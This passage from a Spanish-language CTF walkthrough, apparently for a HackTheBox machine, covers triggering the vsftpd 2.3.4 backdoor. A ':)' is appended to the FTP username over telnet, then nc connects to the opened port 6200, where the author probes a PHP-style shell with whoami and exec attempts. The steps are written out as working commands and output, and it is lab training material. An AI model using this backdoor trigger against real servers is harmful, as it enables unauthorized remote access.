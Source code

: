 ### vsftpd 2.3.4 {-}

Como ya sabemos que esta version es vulnerable, buscando por internet o analyzando el exploit de Metasploit vemos que la vulnerabilidad
reside en poner una sonrisita 
```bash
 :) 
```
 al final del nombre de usuario y esto hace que se habre el puerto 6200 de la maquina.

```bash
nc 10.10.10.131 6200

#Output
Ncat: Connection refused.

telnet 10.10.10.131 21
USER s4vitar:)
PASS setenso
```

se queda bloqueado, podemos cerrar la ventana y con nc intentamos nuevamente la coneccion al puerto 6200.

```bash
nc 10.10.10.131 6200
```

Intentamos enviar commandos

```bash
whoami
#Error PHP Warning: Use of undefined constant whoami - assumed 'whoami' (this will throw an Error in a future version of PHP)
```

Intentamos commandos **PHP**

```bash
exec("whoami")
#error
shell_exec("whoami")
#error
passthru("whoami")
#error
system("whoami")
#error
help
#Output
help
ls
dump
doc
show
wtf
...
```
